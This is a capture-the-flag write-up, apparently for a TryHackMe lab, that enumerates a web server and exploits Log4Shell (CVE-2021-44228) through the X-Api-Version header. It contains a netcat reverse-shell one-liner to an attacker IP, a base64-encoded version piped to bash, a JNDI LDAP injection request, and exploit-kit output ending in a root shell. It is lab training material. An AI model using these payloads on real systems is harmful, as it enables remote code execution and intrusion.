


 
## Reconnaissance
### Front-End Recon
> Identify OS type `TTL=61` probaly linux system
```bash
> ping -c 2 10.10.154.180

PING 10.10.154.180 (10.10.154.180) 56(84) bytes of data.
64 bytes from 10.10.154.180: icmp_seq=1 ttl=61 time=301 ms
64 bytes from 10.10.154.180: icmp_seq=2 ttl=61 time=334 ms

--- 10.10.154.180 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 300.690/317.456/334.223/16.766 ms
```
### Web Application Enumeration
```bash
> nmap -Pn $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 22:38 EST
Nmap scan report for 10.10.154.180
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.71 seconds
```
```bash
> nmap -sC -sV -p$(nmap --min-rate=2000 -T4 -p- $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') $IP -oN tcp.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 22:34 EST
Nmap scan report for 10.10.154.180
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:a1:2d:13:6c:8f:3a:2d:e3:ed:84:f4:c7:bf:20:32 (RSA)
|   256 1d:ac:5b:d6:7c:0c:7b:5b:d4:fe:e8:fc:a1:6a:df:7a (ECDSA)
|_  256 13:ee:51:78:41:7e:3f:54:3b:9a:24:9b:06:e2:d5:14 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.76 seconds
```
### Adding Localhost
```bash
~ > echo "10.10.154.180 lumberjack.thm" | sudo tee -a /etc/hosts
```

### Fingerprinting Web Servers
### Inspecting HTTP Response Headers and Sitemaps
```bash
> curl http://10.10.154.180:80 -v
*   Trying 10.10.154.180:80...
* Connected to 10.10.154.180 (10.10.154.180) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 10.10.154.180
> User-Agent: curl/8.11.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 
< Content-Type: text/plain;charset=UTF-8
< Content-Length: 87
< Date: Fri, 07 Feb 2025 03:40:17 GMT
< 
* Connection #0 to host 10.10.154.180 left intact
What you doing here? There is nothing for you to C. Grab a cup of java and look deeper.%    
```

### Directory and File Listings

```bash
> feroxbuster -u http://lumberjack.thm -w /usr/share/seclists/Discovery/Web-Content/big.txt --scan-dir-listings
 
200      GET        1l       19w       87c http://lumberjack.thm/
200      GET        1l        6w       29c http://lumberjack.thm/~logs
```     

```bash
> gobuster dir -u http://lumberjack.thm/\~logs/ -w /usr/share/seclists/Discovery/Web-Content/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lumberjack.thm/~logs/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 435]
/]                    (Status: 400) [Size: 435]
/log4j                (Status: 200) [Size: 47]
/plain]               (Status: 400) [Size: 435]
/quote]               (Status: 400) [Size: 435]
Progress: 17328 / 20479 (84.61%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 17345 / 20479 (84.70%)
===============================================================
Finished
===============================================================

```

### Debugging Page Content
```bash
> curl -s http://10.10.154.180/\~logs -o -
No logs, no crime. Go deeper.%                                                 
```


```bash
> curl -s http://10.10.154.180/\~logs/log4j -o -
Hello, vulnerable world! What could we do HERE?%                                                                                                                
```

### Technology Stack Identification
```bash
> nmap -sV -sC -Pn -p80 $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 22:41 EST
Nmap scan report for 10.10.154.180
Host is up (0.39s latency).

PORT   STATE SERVICE     VERSION
80/tcp open  nagios-nsca    
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.20 seconds
```
## Vulnerability Analysis
### Security Testing

```bash
X-THM-HINT: CVE-2021-44228 against X-Api-Version
```
### Enumerating APIs
### Vulnerability Identification
```bash
> sploitscan CVE-2021-44228

███████╗██████╗ ██╗      ██████╗ ██╗████████╗███████╗ ██████╗ █████╗ ███╗   ██╗
██╔════╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝██╔════╝██╔════╝██╔══██╗████╗  ██║
███████╗██████╔╝██║     ██║   ██║██║   ██║   ███████╗██║     ███████║██╔██╗ ██║
╚════██║██╔═══╝ ██║     ██║   ██║██║   ██║   ╚════██║██║     ██╔══██║██║╚██╗██║
███████║██║     ███████╗╚██████╔╝██║   ██║   ███████║╚██████╗██║  ██║██║ ╚████║
╚══════╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝   ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
v0.10.5 / Alexander Hagenah / @xaitax / ah@primepage.de

╔════════════════════════╗
║ CVE ID: CVE-2021-44228 ║
╚════════════════════════╝

┌───[ 🔍 Vulnerability information ]
|
├ Published:   2021-12-10
├ Base Score:  10 (CRITICAL)
├ Vector:      CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
└ Description: Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1) JNDI
               features used in configuration, log messages, and parameters do not protect against
               attacker controlled LDAP and other JNDI related endpoints. An attacker who can
               control log messages or log message parameters can execute arbitrary code loaded from
               LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this
               behavior has been disabled by default. From version 2.16.0 (along with 2.12.2,
               2.12.3, and 2.3.1), this functionality has been completely removed. Note that this
               vulnerability is specific to log4j-core and does not affect log4net, log4cxx, or
               other Apache Logging Services projects.

┌───[ ♾️ Exploit Prediction Score (EPSS) ]
|
└ EPSS Score:  97.19% Probability of exploitation.

┌───[ 🛡️ CISA KEV Catalog ]
|
├ Listed:      Yes
└ Ransomware:  Known

┌───[ 💣 Public Exploits (Total: 13) ]
|
├ GitHub
│  ├ Date: 2025-01-20 - https://github.com/ZacharyZcR/CVE-2021-44228
│  ├ Date: 2024-11-15 - https://github.com/Super-Binary/cve-2021-44228
│  ├ Date: 2024-11-10 - https://github.com/AhmedMansour93/-Unveiling-the-Lessons-from-Log4Shell-A-Wake-Up-Call-for-Cybersecurity-
│  ├ Date: 2024-10-09 - https://github.com/Carlos-Mesquita/TPASLog4ShellPoC
│  ├ Date: 2024-09-11 - https://github.com/safeer-accuknox/log4j-shell-poc
│  ├ Date: 2024-07-27 - https://github.com/asd58584388/CVE-2021-44228
│  ├ Date: 2024-06-09 - https://github.com/tadash10/Exploiting-CVE-2021-44228-Log4Shell-in-a-Banking-Environment
│  ├ Date: 2024-03-27 - https://github.com/KirkDJohnson/Wireshark
│  ├ Date: 2024-03-23 - https://github.com/sec13b/CVE-2021-44228-POC
│  └ Date: 2024-03-16 - https://github.com/KtokKawu/l4s-vulnapp
│
├ Exploit-DB
│  ├ Date: 2023-04-01 - https://www.exploit-db.com/exploits/51183
│  ├ Date: 2021-12-14 - https://www.exploit-db.com/exploits/50592
│  └ Date: 2021-12-14 - https://www.exploit-db.com/exploits/50590
│
└ Other
   ├ PacketStorm: https://packetstormsecurity.com/search/?q=CVE-2021-44228
   └ Nuclei: https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2021/CVE-2021-44228.yaml

┌───[ 🕵️ HackerOne Hacktivity ]
|
├ Rank:        29
├ Reports:     675
└ Severity:    Unknown: 554 / None: 8 / Low: 7 / Medium: 22 / High: 28 / Critical: 56

┌───[ 🤖 AI-Powered Risk Assessment ]
|
|                                     
| ❌ OpenAI API key is not configured correctly.
|
└────────────────────────────────────────

┌───[ ⚠️ Patching Priority Rating ]
|
└ Priority:     A+

┌───[ 📚 Further References ]
|
├ https://logging.apache.org/log4j/2.x/security.html
├ http://www.openwall.com/lists/oss-security/2021/12/10/1
├ http://www.openwall.com/lists/oss-security/2021/12/10/2
├ https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-apache-log4j-qRuKNEbd
├ http://www.openwall.com/lists/oss-security/2021/12/10/3
├ https://security.netapp.com/advisory/ntap-20211210-0007/
├ http://packetstormsecurity.com/files/165225/Apache-Log4j2-2.14.1-Remote-Code-Execution.html
├ https://psirt.global.sonicwall.com/vuln-detail/SNWLID-2021-0032
├ https://www.oracle.com/security-alerts/alert-cve-2021-44228.html
├ https://www.debian.org/security/2021/dsa-5020
├ https://lists.debian.org/debian-lts-announce/2021/12/msg00007.html
├ https://lists.fedoraproject.org/archives/list/package-announce%40lists.fedoraproject.org/message/VU57UJDCFIASIO35GC55JMKSRXJMCDFM/
├ https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/
├ http://www.openwall.com/lists/oss-security/2021/12/13/2
├ http://www.openwall.com/lists/oss-security/2021/12/13/1
├ http://www.openwall.com/lists/oss-security/2021/12/14/4
├ https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-apache-log4j-qRuKNEbd
├ https://www.kb.cert.org/vuls/id/930724
├ https://twitter.com/kurtseifried/status/1469345530182455296
├ https://cert-portal.siemens.com/productcert/pdf/ssa-661247.pdf

```
## Exploitation (PoC)
> https://github.com/kozmer/log4j-shell-poc
### Reverse Shell payload 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.2.9.211 9001 >/tmp/f%           
```
> encode into base64 payload 
```bash
>> import base64; print(base64.b64encode(b'YourPayload').decode('utf-8'))
```
### Executing payload 
```bash
> curl 'http://lumberjack.thm/~logs/log4j' -H 'X-Api-Version: ${jndi:ldap://10.2.9.211:1389/mtid41}'
```
### Compiled version (JNDI exploit-kit) 
- Download of compiled version: https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
```bash
> java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L "10.2.9.211:1389" -C "echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC4yLjkuMjExIDkwMDEgPi90bXAvZiUgICAg | base64 -d | bash"

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
       _ _   _ _____ _____      ______            _       _ _          _  ___ _   
      | | \ | |  __ \_   _|    |  ____|          | |     (_) |        | |/ (_) |  
      | |  \| | |  | || |______| |__  __  ___ __ | | ___  _| |_ ______| ' / _| |_ 
  _   | | . ` | |  | || |______|  __| \ \/ / '_ \| |/ _ \| | __|______|  < | | __|
 | |__| | |\  | |__| || |_     | |____ >  <| |_) | | (_) | | |_       | . \| | |_ 
  \____/|_| \_|_____/_____|    |______/_/\_\ .__/|_|\___/|_|\__|      |_|\_\_|\__|
                                           | |                                    
                                           |_|               created by @welk1n 
                                                             modified by @pimps 

[HTTP_ADDR] >> 10.2.9.211
[RMI_ADDR] >> 10.2.9.211
[LDAP_ADDR] >> 10.2.9.211
[COMMAND] >> echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC4yLjkuMjExIDkwMDEgPi90bXAvZiUgICAg | base64 -d | bash
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.2.9.211:1099/q4loxr
ldap://10.2.9.211:1389/q4loxr
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.2.9.211:1099/hb91vf
ldap://10.2.9.211:1389/hb91vf
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.2.9.211:1099/85ygn8
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.2.9.211:1099/lu0k9n
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.2.9.211:1099/mtid41
ldap://10.2.9.211:1389/mtid41
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.2.9.211:1099/qlrgbg
ldap://10.2.9.211:1389/qlrgbg

-------------------- LDAP SERIALIZED PAYLOADS -------------------- 

Payloads                                                    Supported Dynamic Commands                                      
--------                                                    --------------------------                                      
ldap://10.2.9.211:1389/serial/BeanShell1           exec_global, exec_win, exec_unix                                
ldap://10.2.9.211:1389/serial/C3P0                                                                                 
ldap://10.2.9.211:1389/serial/Clojure              exec_global                                                     
ldap://10.2.9.211:1389/serial/Clojure2             exec_global                                                     
ldap://10.2.9.211:1389/serial/CommonsBeanutils1    exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/CommonsCollections1  exec_global, exec_win, exec_unix, sleep, dns                    
ldap://10.2.9.211:1389/serial/CommonsCollections10 exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/CommonsCollections2  exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/CommonsCollections3  exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/CommonsCollections4  exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/CommonsCollections5  exec_global, exec_win, exec_unix, sleep, dns                    
ldap://10.2.9.211:1389/serial/CommonsCollections6  exec_global, exec_win, exec_unix, sleep, dns                    
ldap://10.2.9.211:1389/serial/CommonsCollections7  exec_global, exec_win, exec_unix, sleep, dns                    
ldap://10.2.9.211:1389/serial/CommonsCollections8  exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/CommonsCollections9  exec_global, exec_win, exec_unix, sleep, dns                    
ldap://10.2.9.211:1389/serial/Groovy1              exec_global                                                     
ldap://10.2.9.211:1389/serial/Hibernate1           exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/JBossInterceptors1   exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/JSON1                exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/JavassistWeld1       exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/Jdk7u21              exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/Jython1              exec_global                                                     
ldap://10.2.9.211:1389/serial/MozillaRhino1        exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/MozillaRhino2        exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/Myfaces1             exec_global                                                     
ldap://10.2.9.211:1389/serial/ROME                 exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/URLDNS               dns                                                             
ldap://10.2.9.211:1389/serial/Vaadin1              exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/Jre8u20              exec_global, exec_win, exec_unix, java_reverse_shell, sleep, dns
ldap://10.2.9.211:1389/serial/CustomPayload                                                                        

[+] By default, serialized payloads execute the command passed in the -C argument with 'exec_global'.

[+] The CustomPayload is loaded from the -P argument. It doesn't support Dynamic Commands.

[+] Serialized payloads support Dynamic Command inputs in the following format:
    ldap://10.2.9.211:1389/serial/[payload_name]/exec_global/[base64_command]
    ldap://10.2.9.211:1389/serial/[payload_name]/exec_unix/[base64_command]
    ldap://10.2.9.211:1389/serial/[payload_name]/exec_win/[base64_command]
    ldap://10.2.9.211:1389/serial/[payload_name]/sleep/[miliseconds]
    ldap://10.2.9.211:1389/serial/[payload_name]/java_reverse_shell/[ipaddress:port]
    ldap://10.2.9.211:1389/serial/[payload_name]/dns/[domain_name]
    Example1: ldap://127.0.0.1:1389/serial/CommonsCollections5/exec_unix/cGluZyAtYzEgZ29vZ2xlLmNvbQ==
    Example2: ldap://127.0.0.1:1389/serial/Hibernate1/exec_win/cGluZyAtYzEgZ29vZ2xlLmNvbQ==
    Example3: ldap://127.0.0.1:1389/serial/Jdk7u21/java_reverse_shell/127.0.0.1:9999
    Example4: ldap://127.0.0.1:1389/serial/ROME/sleep/30000
    Example5: ldap://127.0.0.1:1389/serial/URLDNS/dns/sub.mydomain.com

----------------------------Server Log----------------------------
2025-02-07 00:00:58 [JETTYSERVER]>> Listening on 10.2.9.211:8180
2025-02-07 00:00:58 [RMISERVER]  >> Listening on 10.2.9.211:1099
2025-02-07 00:00:59 [LDAPSERVER] >> Listening on 0.0.0.0:1389
2025-02-07 00:05:13 [LDAPSERVER] >> Send LDAP reference result for mtid41 redirecting to http://10.2.9.211:8180/ExecTemplateJDK7.class
2025-02-07 00:05:14 [JETTYSERVER]>> Received a request to http://10.2.9.211:8180/ExecTemplateJDK7.class
```
```bash
> rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.2.9.211] from (UNKNOWN) [10.10.158.242] 44611
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
bash-4.4# 
```
### Post Exploitation Enumeration 
### Lateral Movement 
### Gaining Root 

## Post-Exploitation
### Flags
### Covering Tracks 

## Reporting
### Summary
